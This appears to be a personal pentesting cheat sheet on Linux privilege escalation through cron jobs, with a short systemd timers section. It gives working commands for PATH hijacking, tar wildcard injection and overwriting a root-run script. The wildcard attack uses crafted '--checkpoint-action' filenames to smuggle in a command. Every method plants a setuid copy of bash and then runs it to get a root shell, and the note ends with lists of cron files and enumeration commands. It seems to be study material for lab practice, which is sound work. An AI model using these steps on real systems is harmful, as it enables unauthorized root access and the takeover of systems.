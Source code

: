 ```yaml
---
title: Cron / systemd
updated: 2023-10-31 04:40:17Z
created: 2023-10-14 13:36:35Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


### Cron (Path)
1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the value of the “**PATH**” variable.
eg, the file overwrite.sh is running as root, and the PATH contains path **/home/user/**

3. In command prompt type:
`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/<user>/overwrite.sh`
4. `chmod +x /home/<user>/overwrite.sh`
5. Wait for the Bash script to execute.
6. In command prompt type: `/tmp/bash -p`

### Cron (wildcards)

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script “/usr/local/bin/compress.sh”
3. In command prompt type: cat /usr/local/bin/compress.sh
4. From the output, notice the wildcard (*) used by ‘tar’.

**Exploitation**
1. `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh`
2. `touch /home/user/--checkpoint=1`
3. `touch /home/user/--checkpoint-action=exec=sh\ runme.sh`
4. Wait 1 minute for the Bash script to execute.
5. In command prompt type: `/tmp/bash -p`

### Cron (overwrite)
1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script “overwrite.sh”
3. In command prompt type: ls -l /usr/local/bin/overwrite.sh
4. From the output, notice the file permissions.

**Exploitation**
1. `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh`
2. Wait 1 minute for the Bash script to execute.
3. In command prompt type: `/tmp/bash -p`


## Other CRON files to look at:
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*

***
# SYSTEMD Timers
`systemctl list-timers --all`
